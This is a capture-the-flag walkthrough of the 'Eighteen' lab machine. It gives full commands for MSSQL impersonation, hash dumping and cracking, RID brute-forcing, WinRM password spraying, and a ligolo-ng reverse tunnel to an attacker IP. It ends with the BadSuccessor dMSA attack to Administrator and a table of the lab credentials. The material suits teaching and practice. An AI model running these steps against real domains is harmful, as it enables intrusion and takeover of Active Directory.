



---
tags:
  - Windows
  - Easy
  - MSSQL
  - Impersonation
  - WinRM
  - Ligolo
  - BadSuccessor
  - Kerberos
  - PBKDF2
  - BloodyAD
---


**Important Note:** This is an assumed breach box and given `kevin:iNa2we6haRj2gaw!`.

## User

### Port Scan

As always, we first start off with an nmap scan. Looking at the results, we have three ports open: HTTP, MSSQL, and WinRM.

```
# Nmap 7.95 scan initiated Sat Nov 15 20:10:02 2025 as: /usr/lib/nmap/nmap --privileged -sC -sV -vv -oA nmap/eighteen 10.129.6.144
Nmap scan report for 10.129.6.144
Host is up, received echo-reply ttl 127 (0.058s latency).
Scanned at 2025-11-15 20:10:04 GMT for 20s
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE  REASON          VERSION
80/tcp   open  http     syn-ack ttl 127 Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://eighteen.htb/
1433/tcp open  ms-sql-s syn-ack ttl 127 Microsoft SQL Server 2022 16.00.1000.00; RTM
| ms-sql-ntlm-info: 
|   10.129.6.144:1433: 
|     Target_Name: EIGHTEEN
|     NetBIOS_Domain_Name: EIGHTEEN
|     NetBIOS_Computer_Name: DC01
|     DNS_Domain_Name: eighteen.htb
|     DNS_Computer_Name: DC01.eighteen.htb
|     DNS_Tree_Name: eighteen.htb
|_    Product_Version: 10.0.26100
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Issuer: commonName=SSL_Self_Signed_Fallback
| Public Key type: rsa
| Public Key bits: 3072
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-11-16T03:01:52
| Not valid after:  2055-11-16T03:01:52
| MD5:   9900:9ca5:9fe7:b77e:6d9b:a4d4:2aca:06b5
| SHA-1: 343f:33c5:1fb7:dbdd:baa1:fa74:5b10:5add:94dd:0f7f
| -----BEGIN CERTIFICATE-----
| MIIEADCCAmigAwIBAgIQEaCSlByJPZFJwc6LtLdMHjANBgkqhkiG9w0BAQsFADA7
| MTkwNwYDVQQDHjAAUwBTAEwAXwBTAGUAbABmAF8AUwBpAGcAbgBlAGQAXwBGAGEA
| bABsAGIAYQBjAGswIBcNMjUxMTE2MDMwMTUyWhgPMjA1NTExMTYwMzAxNTJaMDsx
| OTA3BgNVBAMeMABTAFMATABfAFMAZQBsAGYAXwBTAGkAZwBuAGUAZABfAEYAYQBs
| AGwAYgBhAGMAazCCAaIwDQYJKoZIhvcNAQEBBQADggGPADCCAYoCggGBAL+v1aGL
| 87ye5OGR3qHWe9TgS+e+DMsY6vDNKDzhYfUdIShPbftyrGu4Y/b1olY6IsEkAX1S
| 4QegawCMiHo0AKOt6vjgMHUAIJzQ1fEGaY0r7qu/15Jz/kuJ1ogr/u/MWyPdqwAD
| mP+gFLyK8mRSSNxcsbM9+3OOcB5OphQp/pNQe/I9cxmxsbheH1/+JLJI/UBUvt9D
| cfPL9+NvdFtgbOw+z3pyxTaxF+UemQ5VwxF+vrDuvRW9Gs+rbTKmqIPzy8riA6mO
| pQq3WZphnIKgmBRM+KR+qV0XR8uoP8PbqWcfqCKN2thCEv9BgmJ/1g2zoN0CaPpQ
| FmNv4obBwFKT0L2+XDx/ILr/eV+S1U9PaqvJT6OTGQXJT7cCcLCweaV6sHprYUkB
| ToFT2zKaeBUDNOKmt0sP8ahtHWzEQMk9zIp2er6H6aaCtgYAYVf4C5Aix7464fes
| FIFu03jWpo96IlQov/BmXauG8Cow653jcgXYM8GOe9NLvx+mi+n75Hb0aQIDAQAB
| MA0GCSqGSIb3DQEBCwUAA4IBgQAdNX17CIR2doJN3v7kpRx5ZQq4L/CuFH/FQg9B
| PxkfYqg1aFuU8JZB9jkATFcwFFoZB6e8C2rhqYIoPb6WyRyutZ7KvJWlf22M1S9A
| WF6WurlzliXRjFUj72iADBuQ08F1q3ULbL+gVUJvQBp/y4Yb0kH5XoUcqB8Gf6XH
| oI511QiI5OIipE6RIP+8KuuWu7U4eeUHLOcraHwt3HnjhafIiIwBxZbTyi6tGdWe
| aB+CdoVjA40xEQJvTNZoqC58FqRCQqiuav/BI6a4RipaF1e8x054uEBU68K1R69E
| I8g/t2MmHkvZnqIgaGmZqHxbvHaHsETy7ygwPnBcjuw6x36Vav2bDIvK2N0cSZOZ
| eHR3COHsUOm8Qs/VI8CMoOQXChkGe2GCnEUTMQJ6OV6Jam22wlEwk3lBJNcRaRjc
| p75la4QkYWmItXAQKOXX1PkdTBcDaohPPVvX2PYmWNS5bXmjvg6BQr9bj1WPzEnq
| TXMry6uX693DssMJU3ss3pDCb4E=
|_-----END CERTIFICATE-----
| ms-sql-info: 
|   10.129.6.144:1433: 
|     Version: 
|       name: Microsoft SQL Server 2022 RTM
|       number: 16.00.1000.00
|       Product: Microsoft SQL Server 2022
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
|_ssl-date: 2025-11-16T03:10:25+00:00; +7h00m01s from scanner time.
5985/tcp open  http     syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 7h00m00s, deviation: 0s, median: 7h00m00s

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Nov 15 20:10:24 2025 -- 1 IP address (1 host up) scanned in 22.34 seconds

```

### Impersonating AppDev

To start, I took a quick peak at the web app. In the nmap results, it does try to redirect to `eighteen.htb`, so I first added that to my `/etc/hosts` file. Nmap references the host name as `DC01`, so we add `DC01` and `dc01.eighteen.htb` as well. Looking at the page, there doesn't seem to be anything interesting. You can register and enter some values for budget stuff, but no injections of any kind.




Moving on to `mssql`, I went ahead and tried to use the assumed breach credentials with success and was able to log in.

`impacket-mssqlclient 'EIGHTEEN/kevin:iNa2we6haRj2gaw!@10.129.37.192'`


I first tried to use `responder` and get the `mssqlsvc` hash, but it wasn't crackable. I then attempted to look for databases and found one named `financial_planner` which seemed to be associated with the site. In trying to list the tables for it, however, I was denied.

`select name FROM master.dbo.sysdatabases;`
`select * from financial_planner.information_schema.tables;`


Using some of the strategies from [HackTricks](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-mssql-microsoft-sql-server/index.html), I enumerated for any accounts I could impersonate, with a hit of `appdev`.

`SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'`


Note that we can also enumerate for impersonations directly from `nxc` with the following commands. The first has to do with any accounts that are impersonatable, while the second directly enumerates for MSSQL privileges that includes if the input account can impersonate.

`nxc mssql eighteen.htb -u 'kevin' -p 'iNa2we6haRj2gaw!' --local-auth -M enum_impersonate`

`nxc mssql eighteen.htb -u 'kevin' -p 'iNa2we6haRj2gaw!' --local-auth -M mssql_priv`


Knowing that `kevin` can impersonate `appdev`, we can switch over to `appdev` in `mssql` using the following query:

`EXECUTE AS LOGIN = 'appdev`


### Cracking the Admin Hash

Now that we're `appdev`, there's a good chance we can look at the `financial_planner` database now. Let's try to list the tables again and see what we find.


Our assumption was correct and we see a list of tables for the database. Let's try to dump the `users` table to see if anything good is in there.

`use financial_planner;`
`SELECT * from users;`


Looks like we got the `admin` hash! Taking a look at it, it appears to be a `pbkdf2` hash. This format isn't natively usable by `hashcat`, but we can use [pbkdf2-to-hashcat.py](https://gist.github.com/marcos-venicius/858061c6c5709ad1a2f0e305b65a27f8) to convert it.

`python3 pbkdf2-to-hashcat.py 'pbkdf2:sha256:600000$AMtzteQIG7yAbZIa$0673ad90a0b4afb19d662336f0fce3a9edd0b7b19193717be28ce4d66c887133'`


We can put the converted hash into `admin.hash` and crack it with the following `hashcat` command:

`hashcat -a 0 admin.hash ~/Documents/rockyou.txt`

This auto-detects the hash mode to be `10900` for `PBKDF2-HMAC-SHA256` and cracks to the password `iloveyou1`.


### Using adam.scott with WinRM

Logging in to the web page as the admin didn't yield anything. It was just a static page with fake statistics on it. Well great, now we've got a password but with nothing to use it with. Let's try to get all the users using RID bruteforcing. This can be done with `nxc` using the following command:

`nxc mssql eighteen.htb -u kevin -p 'iNa2we6haRj2gaw!' --local-auth --rid-brute`


This generates a lot of output, but we can use `awk` to get it down to just the usernames themselves. We can run the following command to generate our `users.txt` list:

`nxc mssql eighteen.htb -u kevin -p 'iNa2we6haRj2gaw!' --local-auth --rid-brute | awk '{print $6}' | awk -F "\\" '{print $2}' > users.txt`


Let's also throw our two passwords into `passwords.txt` so we can use them to spray our identified users:


We still have that unused `winrm` port. Let's target that with `nxc` and see if we get any hits (ignoring the crypto warnings).

`nxc winrm eighteen.htb -u users.txt -p passwords.txt`


According to our results, we get a hit back with `adam.scott` with `iloveyou1`. We can fire up `evil-winrm` and get the user flag.

`evil-wirnm -i 10.129.37.192 -u 'adam.scott' -p 'iloveyou1'`


## Root

### Setting Up Ligolo-NG

With a login to the box, there didn't seem to be much to go off of. I tried the following things with little success:

- `whoami /all`
- Looking at BloodHound results
- Looking in the Recycle Bin
- Looking for DPAPI credentials
- Seeing if there were applications with vulnerable versions
- Checking the Flask app config files
- Checking for deleted AD objects
Using `netstat -an` though, we can see that the typical Active Directory ports are open.



Normally I would port forward with `chisel`, but these are a lot of ports. Let's try to use `ligolo-ng` instead. First, we can go to the [ligolo-ng releases](https://github.com/nicocha30/ligolo-ng/releases/tag/v0.8.2) and pick the latest **agent** for Windows AMD64. We can unzip it and move the `exe` to the box.


We also need to clone the ligolo-ng repo and build the `proxy` binary.


Now that our binaries are ready, we need to set up our `ligolo` interface. We can use the following commands to add our user (`kali` in this instance) to a `ligolo` interface.

`sudo ip tuntap add user <user> mode tun ligolo`

With our interface in place, we can set up `ligolo`. We will run the `proxy` binary to set up the server, and then use `agent.exe` to connect to it. Order matters here that we run the proxy first.

`./proxy -selfcert`
`./agent.exe -connect 10.10.14.152:11601 -ignore-cert`


The agent joined which is a good sign. In our `ligolo` client, we run `session`, hit enter to use our `adam.scott` session, and then use `start` to start our tunneling session.


With our tunnel started, we can set the `ligolo` interface link to be up.

`sudo ip link set ligolo up`


The final step is to set up an IP that we can use to act as our designation to use the proxy. If we did it right, we should be able to ping through that IP and hit the internal ports.

`sudo ip route add 240.0.0.1/32 dev ligolo`


Importantly though for Kerberos and things like that, we set our `/etc/hosts` file to point to `240.0.0.1` now and also generate a `krb5.conf` file to use, along with syncing the clock with `ntpdate`.


`nxc smb 240.0.0.1 -u 'adam.scott' -p 'iloveyou1' --generate-krb5-file eighteen.conf`
`sudo mv eighteen.conf /etc/krb5.conf`


`sudo ntpdate eighteen.htb`


### Identifying BadSuccessor

Finally after getting all the proxy work in place, we can do some more enumeration on the Active Directory stuff. One such tactic is to use `bloodyAD` to check writeable permissions. We can use the following to check `adam.scott`'s. For the purposes of the screenshot, I grepped for the important bit of information, but be sure to check the other writeable permissions when enumerating.

`python3 bloodyAD.py -d 'eighteen.htb' -u 'adam.scott' -p 'iloveyou1' --host dc01.eighteen.htb --dc-ip 240.0.0.1 get writable --detail`


In our results (again grepping to the important bit), we see that `msDS-DelegatedManageddServiceAccount` is set to `CREATE_CHILD`. This means that the box is likely vulnerable to `BadSuccessor`. To confirm, we can use [BadSuccessor.ps1](https://raw.githubusercontent.com/LuemmelSec/Pentest-Tools-Collection/refs/heads/main/tools/ActiveDirectory/BadSuccessor.ps1) and [Get-BadSuccessorOUPermissions.ps1](https://github.com/akamai/BadSuccessor/blob/main/Get-BadSuccessorOUPermissions.ps1) to double check.


With these two .ps1 files, we get two critical pieces of information: that `BadSuccessor` is in fact likely exploitable, and that we can use the `Staff` OU to perform it (if we were to do this manually, the `Staff` OU would come into play. We use automation here so we don't personally end up inputting it anywhere).

### Exploiting BadSuccessor

Using `bloodyAD`, we can create a malicious DMSA account that can impersonate `Administrator`. We can use the following command to create our bad DMSA account:

`python3 bloodyAD.py -d eighteen.htb -u 'adam.scott' -p 'iloveyou1' --host dc01.eighteen.htb --dc-ip 240.0.0.1  add badSuccessor bad_dmsa`


This created us a file `bad_dmsa_vt.ccache`, a Kerberos TGT that we can use to authenticate. Let's use it to WinRM onto the box as `bad_dmsa`. Because our `bad_dmsa` account is impersonating `Administrator`, we can get the root flag.

`KRB5CCNAME=bad_dmsa_vt.ccache evil-winrm -i dc01.eighteen.htb -r eighteen.htb`


## Credential List

| Username   | Password         | Description                                                                                  |
| ---------- | ---------------- | -------------------------------------------------------------------------------------------- |
| kevin      | iNa2we6haRj2gaw! | Gives MSSQL access for kevin (assumed breach)                                                |
| admin      | iloveyou1        | Admin access to the web app                                                                  |
| adam.scott | iloveyou1        | AD access to adam.scott for WinRM                                                            |
| appdev     | MissThisElite$90 | MSSQL for the appdev account, found in the Flask config files. Not used for the box solution |
